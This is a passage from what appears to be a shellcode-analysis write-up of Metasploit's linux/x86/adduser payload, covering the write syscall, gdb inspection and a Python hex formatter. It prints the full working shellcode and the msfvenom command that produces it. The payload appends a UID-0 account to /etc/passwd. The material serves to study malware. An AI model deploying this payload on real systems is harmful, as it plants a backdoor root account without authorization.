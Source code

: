 + This block looks intimidating, but once we figure out that it's mostly string operations, it's not that bad.  

We see before the systemcall that the `eax` register will hold the value `0x4`. Let's find the corresponding systemcall.  

#### Finding systemcall 4 - write
```console
root# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep ' 4$'
#define __NR_write                4
```
#### write C Function Man Pages
```console
root# man 2 write
```
#### write C Function
```c
ssize_t write(int fd, const void *buf, size_t count);
        EAX    EBX       ECX              EDX
```
+ `call 0x53`
  - This instruction is used to jump over the string.
  - The memory location of the string is pushed onto the stack.

Lets get a bettter view of what is going on here with this string by using `gdb`.
#### Getting the shellcode Hex
```python
root# msfvenom --payload linux/x86/adduser --format python | grep buf |\
> sed 's/buf /sc /g'
sc =  ""
sc += "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31"
sc += "\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68"
sc += "\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8"
sc += "\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69"
sc += "\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49"
sc += "\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69"
sc += "\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd"
sc += "\x80\x6a\x01\x58\xcd\x80"
```
#### Formatting the Shellcode
```python 
#!/usr/bin/python
# Filename: formatHex.py
# Author:   boku
# Purpose:  A python script that converts the '\x' format to '0x ,'
# Add the shellcode hex here.
sc =  ""
sc += "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31"
sc += "\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68"
sc += "\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8"
sc += "\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69"
sc += "\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49"
sc += "\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69"
sc += "\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd"
sc += "\x80\x6a\x01\x58\xcd\x80"
output = ""
for x in bytearray(sc) :
        output += '0x'
        output += '%02x,' %x
print output
```
